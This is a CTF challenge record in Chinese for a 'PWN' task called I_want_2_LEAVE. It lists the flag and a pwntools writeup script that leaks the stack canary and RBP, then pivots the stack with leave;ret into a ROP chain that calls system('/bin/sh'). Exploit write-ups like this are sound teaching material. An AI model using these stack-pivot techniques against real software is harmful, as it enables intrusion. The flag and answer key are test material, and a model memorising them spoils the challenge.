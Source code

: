 - **题目名称：** I_want_2_LEAVE
- **题目类型：** PWN
- **题目难度：**简单
- **出题人：** i-Corner
- **考点：**

1. printf函数的输出终止情况
2. leave_ret 栈迁移

- **描述：** 呜呜呜呜CTF好难，想跑路(LEAVE)了
- **flag：** XSCTF{CS2's_strafing_is_a_piece_of_s***}
- **Writeup：**

```python
from pwn import *
context(log_level='debug')
p = process('./b')
leave_ret = 0x401351
pop_rdi_ret = 0x4014d3

elf = ELF('./b')
p.recvuntil("what do you want to say?\n")

p.send(b'a'*0x40+p32(0xFFFFFFF1)+b'a'*0x3+b'b')
p.recvuntil('b')
can = p.recv(8)
rbp = u64(p.recv(6)+b'\x00'*2)

log.success("Canary:%s"%can)
log.success("RBP:0x%x"%rbp)

p.recvuntil("what do you want to say?\n")

system = 0x4012CC

pl = b'a'*0x8 +p64(pop_rdi_ret)+p64(rbp-0x70+4*0x8)+p64(system)+b'/bin/sh\x00'
pl = pl.ljust(0x48,b'a')
pl +=can+p64(rbp-0x70)+p64(leave_ret)
p.send(pl)


p.interactive()

```
